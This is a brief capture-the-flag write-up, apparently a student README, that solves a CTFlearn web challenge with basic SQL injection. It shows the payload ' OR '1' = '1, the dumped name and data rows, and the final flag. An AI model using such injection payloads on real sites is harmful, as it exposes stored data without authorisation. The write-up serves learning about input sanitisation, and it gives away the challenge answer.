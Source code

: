 # CTF
ctf project for BAWiM
 The main idea finding the flag using basic SQL Injections to insecure web page.

Step-1:

After we go to the given URL https://web.ctflearn.com/web4/, we are asked to submit something.

Step-2:

Inspect Element the blank and try to check the code.

We find a line there.

<!-- Try some names like Hiroki, Noah, Luke -->

Step-3:

When you try all of them, none of them give the flag. So try basic SQL payloads the existing database.

I tried ' OR '1' = '1

I got the following output.

Name: Luke  
Data: I made this problem.  
Name: Alec  
Data: Steam boys.  
Name: Jalen  
Data: Pump that iron fool.  
Name: Eric  
Data: I make cars.  
Name: Sam  
Data: Thinks he knows SQL.  
Name: fl4g__giv3r  
Data: th4t_is_why_you_n33d_to_sanitiz3_inputs  
Name: snoutpop  
Data: jowls  
Name: Chunbucket  
Data: @datboiiii
Step-4:

Finally the flag becomes: th4t_is_why_you_n33d_to_sanitiz3_inputs
